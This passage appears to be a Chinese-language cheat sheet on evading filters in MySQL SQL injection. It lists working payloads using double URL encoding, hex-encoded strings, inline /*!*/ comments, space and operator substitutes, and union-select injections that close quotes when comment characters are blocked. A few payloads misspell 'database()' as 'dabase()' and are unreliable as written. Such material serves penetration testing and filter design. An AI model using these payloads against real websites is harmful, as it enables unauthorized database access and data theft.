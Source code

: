 * 使用url全编码把关键词编码两次（因为服务器会对URL进行一次解码）
* 使用16进制编码对整个payload进行编码

#### 内联注释绕过

```mysql
# payload
# /*!...*/ 只有在mysql中才会执行
select * from security.users where id=1 union /*!select*/ 1,2,3;
```

#### 空格绕过

使用/**/   ()  `` 等代替空格 

```mysql
select/**/table_name/**/from/**/information_schema....
select(table_name)from(information_schema)....
select`table_name`from`information_schema`....
```

#### or&and&xor&not绕过

* and = &&
* or = ||
* xor = |
* not = !

#### 引号绕过

```
# 16进制转换
select column_name from information_schema.columns where table_name='users';
--->
select column_name from information_schema.columns where table_name=0x7573657273;
# 使用已知查询
select column_name from information_schema.columns where table_schema=database();
# 宽字节注入
```

#### 注释符绕过

```mysql
id=1' union select 1,dabase(),3#
id=1' union select 1,dabase(),3--+
# 注释符被过滤，可添加or或者and语句闭合
id=1' union select 1,dabase(),3 or '1'='1
id=1' union select 1,dabase(),3 and '1'='1
```

#### 大小于号绕过

```
greatest()&least()
strcmp(str1,str2) # str1 < str2 返回-1否则返回1
in & between a and b
```
